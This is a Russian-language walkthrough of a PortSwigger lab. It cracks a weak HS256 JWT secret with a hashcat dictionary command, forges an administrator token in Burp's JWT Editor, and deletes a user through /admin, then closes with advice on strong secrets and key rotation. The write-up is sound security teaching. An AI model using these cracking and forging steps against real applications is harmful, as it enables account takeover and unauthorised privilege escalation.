







## Lab: JWT authentication bypass via weak signing key

**Платформа:** PortSwigger Web Security Academy  
**Категория:** JWT (JSON Web Token)  
**Сложность:** Practitioner  
**Дата:** 2025-07-22  

---

## TL;DR
Приложение использует JWT для аутентификации и подписывает токены
симметричным алгоритмом HS256. Секретный ключ подписи оказался
слишком слабым и присутствовал в словаре распространённых секретов.

После подбора секрета удалось самостоятельно подписать изменённый JWT,
подменить пользователя на administrator, получить доступ к /admin
и удалить пользователя carlos.

---

## Описание уязвимости
JWT с алгоритмом HS256 подписывается секретным ключом,
который известен только серверу.

```
JWT = Header.Payload.Signature

Signature = HMAC_SHA256(
    Header.Payload,
    secret_key
)
```

При получении токена сервер самостоятельно вычисляет подпись,
используя свой секрет.

Если вычисленная подпись совпадает с подписью внутри JWT,
токен считается подлинным.

```
Получили JWT
        │
        ▼
Вычисляем новую подпись
используя секрет сервера
        │
        ▼
Подписи совпали?
        │
   Да ──┴── Нет
   │          │
JWT принят   401
```

Если секрет слишком простой (secret, secret1, password и т.д.),
его можно подобрать перебором.

После этого атакующий может самостоятельно выпускать любые JWT,
которые будут успешно проходить проверку на сервере.

---

## Разведка

### Шаг 1 — Получение JWT
Вошла в приложение под пользователем:

```
wiener:peter
```

Перехватила запрос к своему аккаунту.

```http
GET /my-account HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=<JWT>
```
В качестве значения cookie использовался JWT.


### Шаг 2 — Проверка доступа к панели администратора
Изменила путь запроса:

```http
GET /admin HTTP/2
Cookie: session=<JWT>
```

Сервер ответил отказом в доступе,
так как токен принадлежал пользователю wiener.


---

## Эксплуатация

### Шаг 3 — Подбор секретного ключа

Из JWT скопировала полный токен и запустила Hashcat.

```bash
hashcat -a 0 -m 16500 <JWT> jwt.secrets.list
```

Параметры:

```
-a 0 — словарная атака;
-m 16500 — режим для JWT (HS256);
jwt.secrets.list — словарь распространённых секретов.
```

Hashcat перебирает каждый секрет из словаря,
вычисляет HMAC-SHA256 и сравнивает полученную подпись
с подписью внутри JWT.

```
Кандидат из словаря
        │
        ▼
Вычислить HMAC-SHA256
        │
        ▼
Подпись совпала?
        │
Да ─────────► секрет найден
```
В результате был найден секрет:

```
secret1
```



### Шаг 4 — Создание ключа в JWT Editor

B Burp Suite открыла JWT Editor.

Создала новый симметричный ключ (JWK) и
заменила значение поля k
на Base64-представление найденного секрета.

После этого Burp смог подписывать JWT
тем же ключом, который использует сервер.



### Шаг 5 — Подмена пользователя

Открыла JWT Editor для перехваченного запроса.

Изменила claim:

```json
{
    "sub": "administrator"
}
```
После изменения повторно подписала токен
с использованием найденного секрета.

Важно выбрать:

```
Don't modify header
```
чтобы сохранить исходный заголовок JWT.


### Шаг 6 — Получение панели администратора

Отправила запрос:

```
GET /admin HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=<подписанный JWT>
```

Сервер успешно проверил подпись,
счёл токен подлинным
и предоставил доступ к панели администратора.



### Шаг 7 — Удаление пользователя

Из HTML страницы получила ссылку:

```
GET /admin/delete?username=carlos
```

Отправила запрос.

Пользователь был удалён,
лабораторная работа успешно решена.


---

## Итог

```
JWT пользователя wiener
        │
        ▼
Подбор слабого секрета (secret1)
        │
        ▼
Изменение claim sub
        │
        ▼
Повторная подпись JWT
        │
        ▼
GET /admin
        │
        ▼
Доступ администратора
        │
        ▼
Удаление пользователя carlos
```

### Почему разработчики делают такую ошибку

При использовании алгоритма HS256 безопасность JWT полностью
зависит от секретного ключа.

Разработчики иногда используют короткие или очевидные секреты:

```
secret
secret1
password
jwtsecret
admin
changeme
```

Такие ключи присутствуют в общедоступных словарях и
подбираются за считанные секунды.

После компрометации секрета атакующий получает возможность
самостоятельно выпускать любые JWT, которые сервер будет считать
подлинными.

### Где встречается в реальности

```
Внутренние корпоративные приложения
→ используют простой секрет для удобства разработки

Тестовые окружения
→ секреты часто остаются без изменений после переноса в production

Самописные сервисы
→ разработчики используют пароль проекта
или название компании в качестве секрета
```

Во всех этих случаях компрометация секрета позволяет подделывать JWT,
эскалировать привилегии и выдавать себя за любого пользователя.


---

## Защита

```python
# УЯЗВИМО
SECRET = "secret1"

token = jwt.encode(payload, SECRET, algorithm="HS256")
```

```python
# БЕЗОПАСНО
import secrets

SECRET = secrets.token_hex(64)

token = jwt.encode(payload, SECRET, algorithm="HS256")
```

Дополнительно:

- использовать криптографически стойкие секреты длиной не менее 256 бит;
- хранить секреты в защищённом хранилище (Vault, KMS, Secrets Manager и т.п.);
- регулярно ротировать ключи подписи;
- не использовать стандартные или тестовые значения (secret, password, changeme);
- по возможности применять асимметричные алгоритмы (RS256, ES256), при которых приватный ключ никогда не покидает сервер.